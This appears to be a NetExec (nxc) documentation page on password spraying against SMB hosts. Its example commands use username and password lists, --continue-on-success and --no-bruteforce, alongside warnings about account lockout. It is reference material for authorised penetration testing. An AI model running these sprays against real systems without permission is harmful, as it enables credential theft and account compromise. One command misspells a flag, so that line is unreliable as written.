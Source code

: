 ```yaml
---
description: Using NetExec for password spraying
---
```


# Password Spraying

### Using Username/Password Lists

You can use multiple usernames or passwords by seperating the names/passwords with a space.

```
nxc smb 192.168.1.101 -u user1 user2 user3 -p Summer18
nxc smb 192.168.1.101 -u user1 -p password1 password2 password3
```

nxc accepts txt files of usernames and passwords. One user/password per line. Watch out for account lockout!

```
nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18
nxc smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
```

{% hint style="warning" %}
By default nxc will exit after a successful login is found. Using the **--continue-on-success** flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list Usage example:
{% endhint %}

```
nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success
```

### Checking 'username == password' using wordlist

```
nxc smb 192.168.1.101 -u user.txt -p user.txt --no-bruteforce --continue-on-success
```

### Checking multiple usernames/passwords using wordlist

```
nxc smb 192.168.1.101 -u user.txt -p password.txt
```

The result will be:

* user1 => password1
* user1 => password2
* user2 => password1
* user2 => password2

{% hint style="danger" %}
Be careful to not lock accounts using this technique
{% endhint %}

### Checking one login equal one password using wordlist

{% hint style="success" %}
No bruteforce possible with this one as 1 user = 1 password
{% endhint %}

```
nxc smb 192.168.1.101 -u user.txt -p password.txt --no-bruteforce --continue-on-succes
```

The result will be:

* user1 => password1
* user2 => password2

{% hint style="danger" %}
Avoid range or a list of IP when using option --no-bruteforce
{% endhint %}
